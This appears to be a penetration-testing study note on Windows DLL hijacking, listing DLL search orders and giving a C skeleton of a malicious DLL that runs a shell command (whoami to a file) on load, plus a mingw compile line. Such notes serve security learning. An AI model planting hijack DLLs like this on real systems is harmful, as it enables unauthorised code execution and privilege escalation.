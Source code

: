 # DLL Hijacking

## Windows DLL Search Order

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

Note that it seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run).

## Malicious DLL Skeleton

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\\Temp\\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c \
	-shared -o output.dll
```

## References

* [2022-04-21 - TryHackMe: Jr. Penetration Tester](../log/2022-04-21-tryhackme-jr-penetration-tester.md)
* [Exploiting LD_PRELOAD](exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](exploiting-ld-library-path.md)

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 22, 2022
